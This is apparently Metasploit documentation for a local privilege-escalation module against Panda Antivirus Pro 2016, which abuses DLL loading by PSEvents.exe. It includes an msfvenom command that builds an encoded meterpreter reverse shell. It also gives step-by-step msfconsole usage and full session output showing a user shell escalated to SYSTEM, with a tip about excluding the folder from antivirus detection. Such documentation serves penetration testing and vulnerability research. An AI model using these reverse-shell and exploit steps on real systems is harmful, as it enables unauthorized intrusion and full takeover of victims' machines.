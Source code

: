 ## Vulnerable Application

  Panda Antivirus Pro 2016 16.1.2 is available from [filehippo](http://filehippo.com/download_panda_antivirus_pro_2017/download/b436969174c5ca07a27a0aedf6456c89/) or from an unofficial [git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/Panda_AV_Pro2016_16.1.2.exe).

  The AV must be running for PSEvents.exe to run and the module to get called, which can take up to an hour.  I put in an exclusion for the AV for the folder to ensure it didn't catch meterpreter in action.

  The downloads folder can take a few minutes to appear after install, you may want to wait an hour or so, but it will eventually appear.

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Wait for `C:\\ProgramData\\Panda Security\\Panda Devices Agent\\Downloads` folder to appear
  3. Start msfconsole
  4. Get a shell
  5. Do: `use exploit/windows/local/panda_psevents`
  6. Do: `set session #`
  7. Do: `exploit`
  8. Go do something else while you wait
  9. Enjoy being system with your shell

## Options

  **DLL**

  Which DLL to name our payload.  The original vulnerability writeup utilized bcryptPrimitives.dll, however I found which dll to be VERY picky.  CRYPTBASE.dll seemed to work the best and is the default.
  
  **ListenerTimeout**
  
  How long to wait for a shell.  PSEvents.exe runs every hour or so, so the default is 3610 (10sec to account for code execution or other things)

## Scenarios

### Windows 8.1 x86 with Panda Antirivus Pro 2016 16.1.2

  Step 1, get a local shell.  I used msfvenom to drop an exe for easy user level meterpreter.
  
    msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp -f exe -o meterpreter.exe -e x86/shikata_ga_nai -i 1 LHOST=192.168.2.117 LPORT=4449
    
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/meterpreter_reverse_tcp 
    payload => windows/meterpreter_reverse_tcp
    msf exploit(handler) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(handler) > set lport 4449
    lport => 4449
    msf exploit(handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4449 
    [*] Starting the payload handler...
    [*] Meterpreter session 1 opened (192.168.2.117:4449 -> 192.168.2.91:63617) at 2016-09-25 20:32:15 -0400
    
    meterpreter > getuid
    Server username: IE11Win8_1\IEUser
    meterpreter > background
    [*] Backgrounding session 1...

  Step 2, drop our panda exploit

    use exploit/windows/local/panda_psevents
    msf exploit(panda_psevents) > set session 1
    session => 1
    msf exploit(panda_psevents) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(panda_psevents) > set exitfunc seh
    exitfunc => seh
    msf exploit(panda_psevents) > set DLL CRYPTBASE.dll
    DLL => CRYPTBASE.dll
    msf exploit(panda_psevents) > show options
    
    Module options (exploit/windows/local/panda_psevents):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       DLL              CRYPTBASE.dll    yes       dll to create (Accepted: WINHTTP.dll, VERSION.dll, bcryptPrimitives.dll, CRYPTBASE.dll, cryptnet.dll, WININET.dll)
       ListenerTimeout  3610             yes       Number of seconds to wait for the exploit
       SESSION          1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  seh              yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.2.117    yes       The listen address
       LPORT     4450             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    
    msf exploit(panda_psevents) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4450 
    [*] Uploading the Payload DLL to the filesystem...
    [*] Starting the payload handler, waiting for PSEvents.exe to process folder (up to an hour)...
    [*] Start Time: 2016-09-27 18:10:21 -0400
    [*] Sending stage (957999 bytes) to 192.168.2.91
    [*] Meterpreter session 2 opened (192.168.2.117:4450 -> 192.168.2.91:50022) at 2016-09-27 18:46:15 -0400
    [+] Deleted C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\CRYPTBASE.dll
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : IE11WIN8_1
    OS              : Windows 8.1 (Build 9600).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32
    meterpreter > background

## Failed Exploitation Attempts

If the dll doesn't work, PSEvents.exe will fail to run.  While silent to the user, an error will occur in the Application Windows Logs.

 * Event ID: 1000
 * Task Category (100)
 * Log Name: Application
 * Source: Application Error
 * Details:
```
Faulting application name: PSEvents.exe, version: 4.0.0.35, time stamp: 0x57061ba6
Faulting module name: ntdll.dll, version: 6.3.9600.17415, time stamp: 0x54504b06
Exception code: 0xc0000374
Fault offset: 0x000d0cf2
Faulting process id: 0xdd0
Faulting application start time: 0x01d218a30fbf1ac5
Faulting application path: C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\PSEvents.exe
Faulting module path: C:\Windows\SYSTEM32\ntdll.dll
Report Id: 4de7a07e-8496-11e6-9735-000c29e0cffb
Faulting package full name: 
Faulting package-relative application ID:
```